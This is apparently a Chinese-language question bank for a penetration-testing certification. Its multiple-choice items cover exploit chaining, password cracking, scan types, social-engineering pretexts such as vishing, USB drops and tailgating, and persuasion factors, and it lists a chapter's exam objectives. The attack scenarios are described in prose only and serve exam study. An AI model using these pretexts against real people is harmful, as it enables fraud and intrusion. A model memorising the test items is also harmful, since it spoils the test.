2. 利用利用链 (Exploit chaining)。
3. 在 Windows 笔记本电脑上用 `C++` 编写代码。
4. 交叉编译代码 (Cross-compile)。
5. 实现凭破解 (Credential brute forcing)。


### 133. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动，以准备利用发现的漏洞。你发现该组织仍在在使用几个旧的、不支持的 `Windows 2000 Server` 系统。在进行一些研究后，你识别出与这些系统相关的几个可以被利用的漏洞。你修改了特定漏洞利用的源代码，使其能够在这些旧系统上运行，然后对其进行了编译。在此场景中，你使用的过程被称为？（选择两个。）

1. `Cross-compiling the code`（代码交叉编译）
2. `Exploit modification`（利用修改）
3. `Exploit chaining`（利用链攻击）
4. `Mapping vulnerabilities to potential exploits`（漏洞到潜在利用的映射）
5. `Proof-of-concept development`（概念验证开发）

### 134. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动，以准备利用发现的漏洞。你想要针对系统无法通过单一漏洞攻破。但是，你确定可以使用多个漏洞结合使用来攻破系统。第一个漏洞绕过系统的主机防火墙。第二个漏洞利用具有弱密码的用户账户。第三个漏洞提升系统上的权限。你的解决方案被称为？

1. `Deception`（欺骗）
2. `Exploit modification`（利用修改）
3. `Exploit chaining`（利用链攻击）
4. `Credential brute-forcing`（凭据破解）
5. `Proof-of-concept development`（概念验证开发）

### 135. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动，以准备利用发现的漏洞。你发现该组织仍在在使用几个旧的、不支持的 `Windows 2000 Server` 系统。在进行一些研究后，你识别出与这些系统相关的几个可以被利用的漏洞。你修改了特定漏洞利用的源代码，使其能够在这些旧系统上运行，然后对其进行了编译。你接下来应该做什么？

1. `Attack the target systems.`（攻击目标系统。）
2. `Test the modified exploit on virtual machines in a lab environment.`（在实验室环境的虚拟机上测试修改后的利用。）
3. `Implement credential brute-forcing.`（实施凭据破解。）
4. `Cross-compile the code.`（交叉编译代码。）

### 136. 你正在进行黑盒渗透测试。在进入内部网络并运行漏洞扫描后，你识别出一个目标系统并将其漏洞映射到特定的利用程序。然而，为了执行该利用程序，你需要物理访问内部网络插口。因此，你通过尾随（tailgating）进入设施，插上笔记本电脑并运行了利用程序。在此场景中你使用了哪种技术？（选择两个。）

1. `Deception`（欺骗）
2. `Exploit modification`（利用修改）
3. `Social engineering`（社会工程）
4. `Credential brute-forcing`（凭据破解）
5. `Proof-of-concept development`（概念验证开发）

### 137. 下列哪种技术涉及向身份验证系统一个一个地发送密码，尝试找到正确的密码？

1. `Rainbow table`（彩虹表）
2. `Teardrop attack`（滴水攻击）
3. `Credential brute-forcing`（凭据破解）
4. `SYN attack`（SYN 攻击）

### 138. 下列哪种技术涉及从常用密码列表中一个一个地发送密码，尝试找到正确的密码？

1. `Rainbow table`（彩虹表）
2. `SYN attack`（SYN 攻击）
3. `Man-in-the-middle attack`（中间人攻击）
4. `Dictionary attack`（字典攻击）

### 139. 下列哪项是常用密码的预计算哈希值列表，用于离线密码文件破解？

1. `Rainbow table`（彩虹表）
2. `SYN attack`（SYN 攻击）
3. `Digital signature`（数字签名）
4. `Private key`（私钥）

### 140. 下列哪些是常用的控制设备的特殊设备？（选择两个。）

1. `ICS`（工业控制系统）
2. `SCADA`（数据采集与监控制系统）
3. `Point of sale`（销售点终端）
4. `RTOS`（实时操作系统）

### 141. 下列哪些是与移动设备相关的弱点？（选择两个。）

1. `Weak encryption`（弱加密）
2. `Rooting`（根化）
3. `No support for SSL/TLS`（不支持 SSL/TLS）
4. `Susceptible to cross-site scripting`（易受跨站脚本攻击）

### 142. 下列哪项安全性可能最低？（选择两个。）

1. `Windows servers`（Windows 服务器）
2. `Linux servers`（Linux 服务器）
3. `Windows workstations`（Windows 工作站）
4. `Embedded devices`（嵌入式设备）

### 143. 你正在进行黑盒渗透测试。你发现销售点（POS）系统连接到了互联网。当你对它们进行足迹扫描时，它们似乎正在运行 `Windows XP SP3`。你在报告中应该建议什么？（选择两个。）

1. `Replace the POS devices with smartphones.`（用手机替换 POS 设备。）
2. `Isolate the POS devices on their own subnet.`（将 POS 设备隔离在独立的子网中。）
3. `Upgrade the POS devices to a newer version.`（将 POS 设备升级到更高版本。）
4. `Upgrade the physical security.`（提升物理安全性。）

### 144. 你正在进行灰盒渗透测试。在现场，你注意到所有员工都使用指纹扫描仪进行身份验证。这种类型的系统相关的安全弱点是什么？

1. `They can be fooled with fake fingerprints.`（它们会被虚假指纹欺骗。）
2. `They can be bypassed by disconnecting them.`（可以通过断开连接来绕过它们。）
3. `They generate false positives when exposed to sunlight.`（在阳光下它们会产生误报。）
4. `They generate oil.`（它们会产生油脂。）

### 145. 消费级物联网（IoT）设备通常比传统的台式电脑不安全。为什么这个说法是正确的？

1. `Developers who design IoT devices are not as concerned with security.`（设计 IoT 设备的开发者并不关注安全。）
2. `It is difficult for administrators to apply the same security standards.`（管理员难以实施相同的安全标准。）
3. `They lack hardware power.`（它们缺乏硬件性能。）
4. `Regulatory authorities have lower constraints.`（监管机构限制较低。）

### 146. 在外部漏洞扫描期间，渗透测试人员发现了以下结果：

| 漏洞 | 端口 |
| :--- | :--- |
| 多个不支持的 `Apache` 版本 | `80`, `443` |
| HTTPS 连接上接受 `SSLv3` | `443` |
| `Apache` 服务器上启用了 `Mod_rewrite` | `80`, `443` |
| 发现 `Windows Server` 主机 | `21` |

根据这些结果，应该如何优先考虑策略？

1. `Obsolete software can contain vulnerable components.`（旧软件可能包含漏洞组件。）
2. `Weak password management practices are being utilized.`（使用了弱密码管理实践。）
3. `Weak protocols may be intercepted.`（弱协议可能被拦截。）
4. `Sensitive information may be revealed on the web servers.`（Web 服务器可能会暴露敏感信息。）

### 147. 渗透测试人员被通过远程扫描确定客户端服务器池是否符合公司的软件基准。测试人员应该执行什么类型的扫描来验证合规性？

1. `A credentialed scan`（凭据扫描）
2. `A discovery scan`（发现扫描）
3. `A full scan`（全扫描）
4. `A stealth scan`（隐身扫描）

### 148. 你是一名渗透测试人员，正在配置漏洞管理解决方案对客户网络上的服务器进行凭据扫描。你应该被提供什么种类型的账户？

1. `A domain administrator account`（域管理员账户）
2. `A local administrator account`（本地管理员账户）
3. `A 512 encrypted certificate`（512 位加密证书）
4. `A read-only account`（只读账户）

### 149. 渗透测试人员受客户要求对 Web 应用程序进行代码审查。渗透测试人员正在执行什么样的分析？

1. `Dynamic code analysis`（动态代码分析）
2. `Fuzzing`（模糊测试）
3. `Fault injection`（故障注入）
4. `Static code analysis`（静态代码分析）


### 150. 渗透测试人员对域控制器具有完全访问权限，并想要发现过去 30 天内未活动的用户账户。渗透测试人员应该使用哪条命令？

1. `dsrm -users "DN=client.com; OU=hq CN=users"`
2. `dsquery user -inactive 4`
3. `dsquery -o -rdn -limit 30`
4. `dsuser -name -account -limit 3`

### 151. 你是一名渗透测试人员，正在与客户讨论测试聘用协议的属性。以下哪项对在高峰负荷期间对客户生产系统进行观察和测试的影响最大？

1. 为客户使用的关键生产系统划分范围
2. 与客户建立白盒测试聘用关系
3. 让客户管理团队对任何侵入性测试进行签字
4. 设定测试时间表以访问其系统

### 152. 在经过多次尝试后，测试人员能够能够在不利用漏洞的情况下，通过使用自己的指纹通过生物识别传感器获得未经授权的访问。识别设备发生了什么，导致测试人员获得了访问？

1. 设备的配置更倾向于真阴性（true negatives）。
2. 设备被设置为失败时关闭（fail closed）。
3. 设备复制了有效用户的指纹。
4. 设备的调节更倾向于假阳性（false positives）。

### 153. 渗透测试人员完成了对客户网络的简单合规性扫描。结果显示网络上有一部分资产。此信息与测试前给测试人员的网络架构图显示的内容不同。产生差异最可能的原因是什么？（选择两项。）

1. 配置错误的 DHCP 服务器
2. 错误的凭据
3. 受限的网络访问
4. 网络访问控制 (NAC)
5. 存储访问

### 154. 渗透测试人员在范围内的一个 VLAN 中发现了一个数据采集与监控控制系统（SCADA）设备。哪种操作最可能对该设备产生破坏性结果？

1. 开始 DNS 缓存投毒攻击
2. 开始 Nessus 漏洞扫描
3. 开始 SMB 漏洞利用
4. 开始 SNMP 密码暴力破解攻击

### 155. 渗透测试人员正在利用社交媒体收集有关公司不同员工的信息。测试人员创建了一份员工个人资料中频繁使用的常用词列表。这些信息可以用于什么类型的攻击？

1. 字典攻击
2. 漏洞链链攻击
3. Karma 攻击
4. 会话劫持攻击

### 156. 你是一名渗透测试人员，在执行最近的测试后，发现客户员工正在使用字典密码和季节性密码。控制常用字典词作为密码使用的最佳方法是什么？

1. 配置密码过滤器。
2. 在三次尝试失败后禁用账户。
3. 将密码长度从 7 位扩展到 14 位并添加特殊字符。
4. 实施密码历史记录限制。

### 157. 你是一名渗透测试人员，你正在对客户的网络进行黑盒渗透测试，并正在收集漏洞扫描结果。哪种类型的扫描将会在你的测试范围内为你提供重要信息？

1. 合规性扫描
2. 发现扫描
3. 全扫描
4. 隐身扫描

### 158. 一名安全分析师试图在不影响系统或数据的情况下识别客户 Web 应用程序中的漏洞。以下哪项最好地描述了正在执行的漏洞扫描类型？

1. 进取型扫描
2. 合规性扫描
3. 无凭据扫描
4. 被动扫描

### 159. 你是一名渗透测试人员，一直在扫描网络。你所使用的漏洞扫描器正在使用服务访问级别，以更好地评估组织内多个资产的漏洞。正在执行的是什么？

1. 凭据扫描
2. 非侵入式扫描
3. 被动扫描
4. 权限提升测试

### 160. 一个组织正在使用工具进行源代码审查。渗透工具错误地识别了一个漏洞。这种情况发生时称为什么？

1. 假阴性（False negative）
2. 假阳性（False positive）
3. 真阴性（True negative）
4. 真阳性（True positive）

### 161. 你是一名渗透测试人员，正寻求为你的渗透活动交叉编译代码。然后你计划部署它。为什么要交叉编译代码？

1. 为了添加额外的库
2. 为了允许你检查源代码
3. 为了在多个平台上运行
4. 为了在不同的架构上运行

### 162. 以下哪些特征区分了彩虹表攻击与暴力破解攻击？（选择两项。）

1. 彩虹表攻击减少了攻击时的计算周期。
2. 彩虹表必须包含预编译的哈希值。
3. 彩虹表攻击不需要访问哈希后的密码。
4. 彩虹表攻击必须在网络上进行。
5. 彩虹表攻击可以绕过最大登录失败限制。

### 163. 渗透测试人员想对捕获的密码文件使用彩虹表。彩虹表是如何破解密码的？

1. 通过比较哈希值来识别已知值
2. 通过解密密码
3. 通过反哈希（unhashing）密码
4. 通过对哈希进行暴力破解测试

### 164. 渗透测试人员正在渗透测试过程中，在没有主动扫描客户的情况下收集信息。正在收集什么类型的信息？

1. 背景检查
2. 商业记录搜索
3. 情报收集
4. 开源情报 (OSINT)

### 165. 以下哪项项不是开源情报 (OSINT) 收集工具？

1. FOCA
2. Nessus
3. nslookup
4. whois

### 166. 你和同事正在讨论开源情报 (OSINT)，讨论趋向于漏洞和其他安全缺陷。有许多组织正在汇总这些知识。其中一个组织处理广泛的网络安全活动。它侧重于安全漏洞和拒绝服务事件，提供警报以及事件处理和避免指南。我们正在讨论的是哪个组织？

1. 常见攻击模式枚举与分类 (CAPEC)
2. 计算机应急响应小组 (CERT)
3. 弱性枚举 (CWE)
4. 国家标准与技术研究院 (NIST)

### 167. 你和同事正在讨论开源情报 (OSINT)，讨论趋向于漏洞和其他安全缺陷。有许多组织正在汇总这些知识。其中一个组织使用一个列表作为资源，旨在帮助识别和记录攻击及攻击模式。它允许用户按机制或领域搜索攻击，并使用各种属性和前提条件分解每种攻击。我们正在讨论的是哪个组织？

1. 常见攻击模式枚举与分类 (CAPEC)
2. 计算机应急响应小组 (CERT)
3. 弱性枚举 (CWE)
4. 国家标准与技术研究院 (NIST)


168. 你是一名渗透测试员，你的客户希望你扫描他们的系统，并会不尽全力避免被检测。客户不希望其网络安全团队发现正在进行渗透测试。你将执行哪种类型的扫描？

1. 合规性扫描 (Compliance scan)
2. 发现扫描 (Discovery scan)
3. 全扫描 (Full scan)
4. 隐身扫描 (Stealth scan)

# 第 3 章：攻击与利用

## 本章涵盖的 PentTest 考试主题包括：

### 领域 3：攻击与利用

### 3.1 比较并对比社交工程攻击。
* 钓鱼攻击 (Phishing)
    * 针对性钓鱼攻击 (Spear phishing)
    * 短信钓鱼 (SMS phishing)
    * 语音钓鱼 (Voice phishing)
    * 捕鲸钓鱼攻击 (Whaling)
* 信息套取 (Elicitation)
    * 业务电子邮件劫持 (Business email compromise)
* 审讯 (Interrogation)
* 冒充 (Impersonation)
* 侧旁窥视 (Shoulder surfing)
* USB 密钥投放 (USB key drop)
* 动机技术 (Motivation techniques)
    * 权威性 (Authority)
    * 稀缺性 (Scarcity)
    * 社交证明 (Social proof)
    * 紧急性 (Urgency)
    * 相似性 (Likeness)
    * 恐惧 (Fear)

### 3.3 给定定场景，利用基于网络的漏洞。
* 名称解析攻击 (Name resolution exploits)
    * NETBIOS 名称服务
    * LLMNR
* SMB 攻击 (SMB exploits)
* SNMP 攻击 (SNMP exploits)
* SMTP 攻击 (SMTP exploits)
* FTP 攻击 (FTP exploits)
* DNS 缓存投毒 (DNS cache poisoning)
* 哈希值传递 (Pass the hash)
* 中间人 (Man-in-the-middle)
    * ARP 欺骗 (ARP spoofing)
    * 重放攻击 (Replay)
    * 继继攻击 (Relay)
    * SSL 剥离 (SSL stripping)
    * 降级攻击 (Downgrade)
* DoS/压力测试 (DoS/stress test)
* NAC 绕过 (NAC bypass)
* VLAN 跳跃 (VLAN hopping)

### 3.3 给定定场景，利用基于无线和 RF 的漏洞。
* 恶性双孪生 (Evil twin)
    * Karma 攻击 (Karma attack)
    * 降级攻击 (Downgrade attack)
* 取消认证攻击 (Deauthentication attacks)
* 分段攻击 (Fragmentation attacks)
* 凭据采集 (Credential harvesting)
* WPS 实现缺陷 (WPS implementation weakness)
* 蓝牙攻击 (Bluejacking)
* 蓝牙窃取 (Bluesnarfing)
* RFID 克隆 (RFID cloning)
* 干扰攻击 (Jamming)
* 中继攻击 (Repeating)

### 3.4 给定定场景，利用基于应用程序的漏洞。
* 注入攻击 (Injections)
    * SQL
    * HTML
    * 命令注入 (Command)
    * 代码注入 (Code)
* 身份验证 (Authentication)
    * 凭据暴力破解 (Credential brute forcing)
    * 会话劫持 (Session hijacking)
    * 重定向 (Redirect)
    * 默认凭据 (Default credentials)
    * 弱凭据 (Weak credentials)
    * Kerberos 攻击 (Kerberos exploits)
* 授权 (Authorization)
    * 参数污染 (Parameter pollution)
    * 不安全的直接对象引用 (Insecure direct object reference)
* 跨站脚本 (XSS)
    * 存储型/持久型 (Stored/persistent)
    * 反射型 (Reflected)
    * DOM 型
* 跨站请求伪造 (CSRF/XSRF)
* 点击劫持 (Clickjacking)
* 安全配置错误 (Security misconfiguration)
    * 目录遍历 (Directory traversal)
    * Cookie 操纵 (Cookie manipulation)
* 文件包含 (File inclusion)
    * 本地 (Local)
    * 远程 (Remote)
* 不安全代码实践 (Unsecure code practices)
    * 源代码中的注释
    * 缺乏错误处理
    * 错误过于详细 (Overly verbose error handling)
    * 硬编码凭据 (Hard-coded credentials)
    * 竞态条件 (Race conditions)
    * 未经授权使用函数/不受保护的 API
    * 隐藏元素 (Hidden elements)
    * DOM 中的敏感信息
    * 缺乏代码签名 (Lack of code signing)

### 3.5 给定定场景，利用本地主机漏洞。
* 操作系统漏洞 (OS vulnerabilities)
    * Windows
    * Mac OS
    * Linux
    * Android
    * iOS
* 不安全的服务和协议配置 (Unsecure service and protocol configurations)
* 权限提升 (Privilege escalation)
    * Linux 特有
        * SUID/SGID 程序
        * 不安全的 SUDO
        * Ret2libc 
        * 粘滞位 (Sticky bits)
    * Windows 特有
        * Cpassword
        * LDAP 中的明文凭据
        * Kerberoasting 攻击
        * LSASS 中的凭据
        * 无值安装 (Unattended installation)
        * SAM 数据库
        * DLL 劫持 (DLL hijacking)
    * 可利用的服务 (Exploitable services)
        * 未引号的服务路径 (Unquoted service paths)
        * 可写的服务 (Writable services)
* 不安全的文件/文件夹权限 (Unsecure file/folder permissions)
* 键盘记录器 (Keylogger)
* 计划任务 (Scheduled tasks)
* 内核利用 (Kernel exploits)
* 默认账户设置 (Default account settings)
* 沙箱逃逸 (Sandbox escape)
    * Shell 升级 (Shell upgrade)
    * 虚拟机 (VM)
    * 容器 (Container)
* 物理设备安全 (Physical device security)
    * 冷启动攻击 (Cold boot attack)
    * JTAG 调试 (JTAG debug)
    * 串口控制台 (Serial console)

### 3.6 总结与设施相关的物理安全攻击。
* 尾随/进入 (Piggybacking/tailgating)
* 翻越围栏 (Fence jumping)
* 翻垃圾桶 (Dumpster diving)
* 开锁 (Lock picking)
* 锁具绕过 (Lock bypass)
* 出口传感器 (Egress sensor)
* 门禁克隆 (Badge cloning)

### 3.7 给定定场景，执行后渗透技术。
* 横向移动 (Lateral movement)
    * RPC/DCOM
        * PsExec
        * WMI
        * 计划任务 (Scheduled tasks)
        * 远程登录/WinRM (remoting/WinRM)
    * SMB
    * RDP
    * Apple 远程桌面 (Apple Remote Desktop)
    * VNC
    * X-server 转发
    * Telnet
    * SSH
    * RSH/Rlogin
* 持久化 (Persistence)
    * 计划作业 (Scheduled jobs)
    * 计划任务 (Scheduled tasks)
    * 守护进程 (Daemons)
    * 后门 (Back doors)
    * 洛木马 (Trojan)
    * 创建新用户 (New user creation)
* 隐藏踪迹 (Covering your tracks)


### 5. 你正在为一家在美国销售进口电子设备的小型机构进行黑盒渗透测试。你已经使用侦察技术识别了前台人员的电话以及该组织的打印机供应商。你拨给该前台电话，假装成是该供应商的销售代表。你向前台询问有关其打印机、工作站、操作系统等信息，以进一步了解该机构组织的网络基础设施。在这种情况下，你使用了哪种攻击手段？

1. 短信钓骗 (Smishing)
2. 语音钓骗 (Vishing)
3. 鱼叉式钓鱼攻击 (Spear phishing)
4. 捕鲸钓鱼攻击 (Whaling)

### 6. 哪种社会工程技术涉及通过恐吓员工来收集信息？

1. 钓鱼攻击 (Phishing)
2. 短信钓骗 (Smishing)
3. 充装 (Impersonation)
4. 审讯 (Interrogation)

### 7. 你正在为一家大型金融机构进行黑盒渗透测试。通过侦察技术，你识别了负责该机构总部内自动售卖机的供应商。你穿上与该供应商员工类似的制服。你还买了一辆手推和几箱汽水。目标机构的前台允许你进入，并引导你前往休息室。在这种情况下，你使用了哪种攻击手段？

1. 充装 (Impersonation)
2. 短信钓骗 (Smishing)
3. 语音钓骗 (Vishing)
4. 套话 (Elicitation)

### 8. 你正在为一家中型制造机构进行黑盒渗透测试。通过侦察技术，你识别了负责该机构总部打印机的供应商。你穿上与该供应商员工类似的制服。你还买了一个包含打印机维修技术人员常用工具的工具箱。目标机构的前台允许你进入，并引导你前往一台有故障的打印机。在“修理”那台打印机时，你与附近的员工聊天以收集信息。在这种情况下，你使用了哪种攻击手段？（选择两项）

1. 充装 (Impersonation)
2. 捕鲸钓鱼攻击 (Whaling)
3. 钓鱼攻击 (Phishing)
4. 审讯 (Interrogation)
5. 套话 (Elicitation)

### 9. 你正在为一家中型制造机构进行黑盒渗透测试。通过侦察技术，你识别了负责该机构总部打印机的供应商。你穿上与该供应商员工类似的制服。你还买了一个包含打印机维修技术人员常用工具的工具箱。目标机构的前台允许你进入，并引导你前往一台有故障的打印机。在机构内“工作”时，你悄悄地观察员工打字的情况，试图收集敏感信息。在这种情况下，你使用了哪种攻击手段？（选择两项）

1. 窥肩偷窥 (Shoulder surfing)
2. 钓鱼攻击 (Phishing)
3. 充装 (Impersonation)
4. 审讯 (Interrogation)
5. 套话 (Elicitation)

### 10. 你正在为一家中型制造机构进行黑盒渗透测试。通过侦察和钓鱼技术，你破解了一个员工邮箱账户的密码。你使用该账户询问其他员工，企图收集敏感信息和文档。在这种情况下，你使用了哪种攻击手段？（选择两项）

1. 窥肩偷窥 (Shoulder surfing)
2. 钓鱼攻击 (Phishing)
3. 充装 (Impersonation)
4. 审讯 (Interrogation)
5. 套话 (Elicitation)

### 11. 你被聘请为客户进行黑盒渗透测试。你买了一个小 U 盘，并在加载了恶意软件，该软件会在受害者计算机上安装键盘记录器并将捕获的信息发送给你。你走进客户的大门，询问前台前往附近体育场地的路线。在你说话时，你故意将 U 盘掉在地板上然后离开。在这种情况下使用了哪种攻击手段？

1. 窥肩偷窥 (Shoulder surfing)
2. U 盘遗弃 (USB key drop)
3. 钓鱼攻击 (Phishing)
4. 套话 (Elicitation)

### 12. 哪种攻击手段向目标机构的大量员工不加地发送电子邮件，预计其中会有一定比例的人点击消息中的恶意链接？

1. 钓鱼攻击 (Phishing)
2. 鱼叉式钓鱼攻击 (Spear phishing)
3. 短信钓骗 (SMS phishing)
4. 捕鲸钓鱼攻击 (Whaling)

### 13. 哪种攻击手段依赖短信来投送钓鱼信息？

1. 套话 (Elicitation)
2. 鱼叉式钓鱼攻击 (Spear phishing)
3. 短信钓骗 (SMS phishing)
4. 捕鲸钓鱼攻击 (Whaling)

### 14. 哪种攻击手段依赖电话来说服某人透露敏感信息？

1. 语音钓骗 (Vishing)
2. 鱼叉式钓鱼攻击 (Spear phishing)
3. 钓鱼攻击 (Phishing)
4. 捕鲸钓鱼攻击 (Whaling)

### 15. 哪种攻击手段要求渗透测试首先进行大量的侦察，以识别组织内特定的、高价值个人作为目标？（选择两项）

1. 鱼叉式钓鱼攻击 (Spear phishing)
2. 钓鱼攻击 (Phishing)
3. U 盘遗弃 (USB key drop)
4. 捕鲸钓鱼攻击 (Whaling)
5. 短信钓骗 (SMS phishing)

### 16. 哪种社会工程技术在渗透测试期间最不可能被使用？

1. 审讯 (Interrogation)
2. 充装 (Impersonation)
3. 窥肩偷窥 (Shoulder surfing)
4. U 盘遗弃 (USB key drop)

### 17. 你被聘请为客户进行黑盒渗透测试。你买了一个小 U 盘，并在加载了恶意软件，该软件会将信息发送给你。通过侦察技术，你识别了负责该机构总部暖空调系统的供应商。你穿上与该供应商员工类似的制服，并购买了他们常用的工具。目标机构的前台允许你进入，并引导你前往机械机间。当你走过一个敞开的隔间时，你故意将 U 盘留在了用户的椅子上。在这种情况下使用了哪种攻击手段？（选择两项）

1. 套话 (Elicitation)
2. 充装 (Impersonation)
3. 窥肩偷窥 (Shoulder surfing)
4. U 盘遗弃 (USB key drop)
5. 商务邮件欺诈 (Business email compromise)

### 18. 你被聘请为客户进行黑盒渗透测试。你买了一个小 U 盘，并在加载了恶意软件，该软件会将信息发送给你。你进入机构的主入口，询问前台关于当前招聘的信息。你观察她在电脑上输入的击键，以期捕获可以用于访问网络的敏感信息。在这种情况下使用了哪种攻击手段？

1. 鱼叉式钓鱼攻击 (Spear phishing)
2. 充装 (Impersonation)
3. 窥肩偷窥 (Shoulder surfing)
4. U 盘遗弃 (USB key drop)
5. 商务邮件欺诈 (Business email compromise)

### 19. 你被聘请为客户进行灰盒渗透测试。你成功在她在登录邮箱账户时路过，并观察了她在电脑上输入的击键。当天晚上，在员工下回家后，你登录她的邮箱账户向其他员工发送信息请求。在这种情况下使用了哪种攻击手段？（选择两项）

1. 鱼叉式钓鱼攻击 (Spear phishing)
2. 捕鲸钓鱼攻击 (Whaling)
3. U 盘遗弃 (USB key drop)
4. 窥肩偷窥 (Shoulder surfing)
5. 商务邮件欺诈 (Business email compromise)

### 20. 你正在执行黑盒渗透测试的侦察。你注意到目标机构的员工经常聚集在一家户外餐厅午餐。你开始光顾那家餐厅午餐，并与目标机构的几个员工建立了朋友。在你他们的信任后，他们开始分享关于工作、电脑、老板、客户、项目等信息。在这种情况下发生了哪种类型的攻击？

1. 捕鲸钓鱼攻击 (Whaling)
2. 套话 (Elicitation)
3. 审讯 (Interrogation)
4. 钓鱼攻击 (Phishing)

### 21. 一名渗透测试人员向目标机构的员工发送了一封鱼叉式钓鱼邮件，自称是运营总监。邮件要求员工回复敏感内部信息。渗透测试人员在这种情况下使用了哪种动机因素？

1. 权威性 (Authority)
2. 稀缺性 (Scarcity)
3. 社会证明 (Social proof)
4. 相似性 (Likeness)


## 22. 渗透测试人员向目标组织的一名员工发送了一封鱼叉式钓鱼邮件，自称是联邦调查局（FBI）的探员。邮件显示该员工的经理正在接受贪污调查，并要求该员工回复敏感的内部信息。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 相似性 (Likeness)
2. 稀缺性 (Scarcity)
3. 社会证明 (Social proof)
4. 权威性 (Authority)

## 23. 渗透测试人员向目标组织的一名员工发送了一封鱼叉式钓鱼邮件，自称是位忘记密码的同事。邮件显示她在几分钟后要进行演示，但无法在共享网络驱动器上访问演示文件。她请求该员工“借”给她用户名和密码，以便她登录并获取文件。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 恐惧 (Fear)
2. 紧急性 (Urgency)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 24. 渗透测试人员向目标组织的所有员工发送了一封钓鱼邮件。邮件中的链接指向一个虚假网站，该网站列出了超过 1000 条评论，平均评分为 4.9 星。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 社会证明 (Social proof)
2. 紧急性 (Urgency)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 25. 渗透测试人员向目标组织的所有员工发送了一封钓鱼邮件。邮件声称以极其低廉的价格提供 iPad。然而，该价格仅剩 25 台。邮件中的链接指向一个虚假网站，该网站使用一个路过的下载脚本在员工的电脑上植入键盘记录器。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 恐惧 (Fear)
2. 社会证明 (Social proof)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 26. 你正在执行黑盒渗透测试的侦察工作。你注意到目标组织的员工经常在一家特定的户外餐厅聚吃午餐。你聘请了几名年轻且外貌出色的顾问来协助渗透测试。你让他们去同一家餐厅吃午餐，并让他们与目标组织的几名员工建立朋友。他们获得了员工的信任，员工开始分享关于他们的工作、电脑、老板、客户、项目等信息。在这一场景中使用了哪种动机因素？

1. 权威性 (Authority)
2. 稀缺性 (Scarcity)
3. 社会证明 (Social proof)
4. 相似性 (Likeness)

## 27. 在渗透测试期间，你向目标组织的首席财务官（CFO）发送了一封邮件。邮件声称 CFO 笔记本电脑上的摄像头被秘密用于记录他观看色情内容的视频。邮件威胁说，如果他不提供有关其公司的某些敏感信息，将发布该视频并通知他的家人、雇主和警方。在这一场景中使用了哪种动机因素？

1. 恐惧 (Fear)
2. 社会证明 (Social proof)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 28. 渗透测试人员向目标组织的一名销售代表发送了一封邮件，自称是该组织最重要的客户之一的 CEO。邮件要求该员工创建一个 `VPN` 账户，允许 CEO 访问该组织网络上的某些文件。邮件威胁说，如果不这样做，将终止业务关系。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 相似性 (Likeness)
2. 社会证明 (Social proof)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 29. 渗透测试人员向目标组织的一名员工发送了一封邮件，自称是位出差的销售代表。她在邮件中声称自己从酒店的 `VPN` 连接极其缓慢，她无法访问客户的数据。如果得不到数据，她将失去这笔订单。信息请求员工通过电子邮件向她发送文件副本。在这一场景中，渗透测试人员使用了哪种动机因素？

1. 社会证明 (Social proof)
2. 紧急性 (Urgency)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 30. 渗透测试人员向目标组织的一名员工发送了邮件，自称是位出差的销售代表。她在邮件中声称她忘记了 `VPN` 密码，现在因为尝试次数过多导致账户被锁定了。她向员工索要 `VPN` 用户名和密码，以便她登录并用一个巨额新订单更新客户数据库。她在邮件中提到，目标员工的一位同事以前为她做过这件事，而且没什么问题。在这一场景中，渗透测试人员使用了哪种动机因素？（选择两个）

1. 社会证明 (Social proof)
2. 紧急性 (Urgency)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)
5. 恐惧 (Fear)

## 31. 哪种动机因素会让人们因供应有限的感而迅速行动？

1. 社会证明 (Social proof)
2. 相似性 (Likeness)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 32. 哪种动机因素会让人们因为相信“其他人都在做”而行动？

1. 社会证明 (Social proof)
2. 恐惧 (Fear)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 33. 哪种动机因素会让人们因为有权的人希望他们这样做而行动？

1. 相似性 (Likeness)
2. 社会证明 (Social proof)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 34. 哪种动机因素会让人们因为相信某人需要帮助而迅速行动？

1. 社会证明 (Social proof)
2. 紧急性 (Urgency)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 35. 哪种动机因素会让人们因为想要取好请求者而行动？

1. 相似性 (Likeness)
2. 社会证明 (Social proof)
3. 权威性 (Authority)
4. 稀缺性 (Scarcity)

## 36. 哪种动机因素会让人们因为担心不行动的后果而行动？

1. 社会证明 (Social proof)
2. 恐惧 (Fear)
3. 稀缺性 (Scarcity)
4. 权威性 (Authority)

## 37. 渗透测试人员通过跟在一个员工后面，在认证门完全关闭之前抓抓住它，进入了目标组织的物理设施。这种技术叫什么？

1. 尾随 (Piggybacking)
2. 尾随 (Tailgating)
3. 绕过锁 (Lock bypass)
4. 克隆 (Badge cloning)

## 38. 渗透测试人员在停车场与一名员工聊天，并跟随她进入一个使用距离卡读器控制访问的门。员工刷卡开门并为渗透测试人员留门。这种技术叫什么？

1. 尾随 (Piggybacking)
2. 尾随 (Tailgating)
3. 绕过锁 (Lock bypass)
4. 克隆 (Badge cloning)

## 39. 渗透测试人员在目标组织的停车场等待，直到看到一群员工吃完回来。她安静地插在队伍最后。队伍中的第一个人使用他的卡打开了一扇安全门。渗透测试人员跟随其他人进入了这扇门。这种技术叫什么？

1. 尾随 (Piggybacking)
2. 尾随 (Tailgating)
3. 绕过锁 (Lock bypass)
4. 克隆 (Badge cloning)

## 40. 当渗透测试人员靠近目标组织物理设施的主入口时，她注意到一个旋转门用于控制访问。她小心地跳过了旋转门而不是从里面通过。这种技术叫什么？

1. 尾随 (Piggybacking)
2. 尾随 (Tailgating)
3. 绕过锁 (Lock bypass)
4. 翻越边界 (Fence jumping)

